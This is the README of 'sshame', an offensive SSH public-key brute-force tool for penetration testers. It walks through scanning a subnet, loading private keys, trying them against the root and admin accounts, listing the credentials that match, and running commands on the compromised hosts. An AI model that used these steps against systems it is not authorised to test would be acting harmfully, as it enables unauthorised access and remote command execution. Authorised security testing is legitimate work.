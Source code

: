 # sshame - SSH Public Key brute force tool
Interactive tool to brute force ssh public key authentication. Primarily intended for pentration testers. Sshame can execute commands on remote hosts.

## Version history ##

### sshame 0.5 - 2019-08-25 ###

Initial release

## Installing ##

Clone the source from Github:

    git clone https://github.com/HynekPetrak/sshame.git
    cd shame

Then in order to install run:

    sudo python3 setup.py install

In case you want to contribute instead of install run:

    sudo python3 setup.py develop

## Basic usage ##

sshame is interactive, based on https://github.com/python-cmd2/cmd2

    # sshame
    (sshame)

Type help to get a list of commands:
    (sshame) help

    Documented commands (type help <topic>):

    Sshame
    ======
    commands  creds  exploit  hosts  keys  resolve  session

    Uncategorized
    =============
    alias  help     macro     py    record        run_script  shell
    edit   history  playback  quit  run_pyscript  set         shortcuts


### Add target hosts ###

In the sshame shell run `hosts -a list-of-ip-ranges-or-hosts [-p port]`:

    (sshame) hosts -a 10.0.0.0/24 -p 22
    Scanning 10.0.0.0/24 on port(s) 22
    ........***.............
    Received 877 packets, got 222 answers, remaining 34 packets
    2019-08-25 19:22:15,633 sshame [I] 'Adding host (port open): 10.0.0.2 22'
    2019-08-25 19:22:15,683 sshame [I] 'Adding host (port open): 10.0.0.1 22'
    2019-08-25 19:22:15,686 sshame [I] 'Adding host (port open): 10.0.0.6 22'

 sshame will scan the given hosts with scapy and add those, which have the port open.

 To verify added hosts with TCP port open run `hosts -l`

### Load ssh keys ###

 Load private keys with `keys -a glob_path [-p list-of-passwords]`

    (sshame) keys -a test/**/*key
    2019-08-25 19:30:40,613 sshame [I] "Adding ssh keys from: ['test/**/*key']"
    2019-08-25 19:30:40,614 sshame [I] "Discovered 4 files in 'test/**/*key'."
    2019-08-25 19:30:40,615 sshame [I] 'Going to examine 4 files.'
    2019-08-25 19:30:40,635 sshame [I] 'Importing ssh-dss key: test/keys/dsa_key'
    2019-08-25 19:30:40,645 sshame [I] 'Importing ssh-rsa key: test/keys/rsa_key'
    2019-08-25 19:30:40,680 sshame [I] 'Importing ecdsa-sha2-nistp256 key: test/keys/ecdsa_key'
    2019-08-25 19:30:40,693 sshame [I] 'Importing ssh-ed25519 key: test/keys/ed25519_key'
    Loaded 4 unique keys, ignoring 0 duplicates

`-p list-of-passwords` is optional in case you load encrypted private keys protected with passwords.

List loaded keys with `keys -l`

### Test keys on hosts ###

To brute force which keys authenticates on which target run `exploit -u list-of-users`:

    (sshame) exploit -u root admin
    2019-08-25 19:34:31,900 sshame [I] 'Preparing target jobs...'
    2019-08-25 19:34:31,933 sshame [I] 'Matching keys - 16 jobs scheduled'
    Completed: [####################] [100.00%]
    2019-08-25 19:34:56,857 sshame [I] '---------------------------------------------------------------------------'

List matching keys with `creds -l`:

    (sshame) creds -l
    [1/1/1]: ssh -i test/keys/rsa_key root@10.0.0.2
    [2/2/1]: ssh -i test/keys/dsa_key admin@10.0.0.1

### Run commands on remote hosts ###

To run commands on remote hosts use `exploit -c command`, e.g.:

    (sshame) exploit -c whoami
    2019-08-25 23:28:22,757 sshame [I] 'Preparing target jobs...'
    2019-08-25 23:28:22,763 sshame [I] 'Executing commands - 2 jobs scheduled'
    Completed: [####################] [100.00%]
    2019-08-25 23:28:23,993 sshame [I] '---------------------------------------------------------------------------'

### Show command results ###

With `commands -r` diplay the results:

    (sshame) commands -r
    Entries: 2
    
    | guid                                 | host_address   |   host_port | username   | cmd                  |   exit_status | output          | updated             |
    |--------------------------------------+----------------+-------------+------------+----------------------+---------------+-----------------+---------------------|
    | 434f163a-24b5-4775-a3c1-6ea41745b18d | 10.0.0.2       |          22 | root       | whoami               |             0 | root            | 2019-08-25 21:28:23 |
    | 305e3f5d-bf4d-4024-981a-59b2dddebbcd | 10.0.0.1       |          22 | admin      | whoami               |             0 | admin           | 2019-08-25 21:28:23 |

### Session management ###

You may want to split wokloads into sessions. Use `session name` to switch between sessions. Default session is 
called 'default'.

Each session has its data stored in a separate sqlite db in the current directory named after the session 
name, e.g. `default.db`

    (sshame) session test
    2019-08-25 23:38:38,283 sshame [I] 'Openning session: sqlite:///test.db'

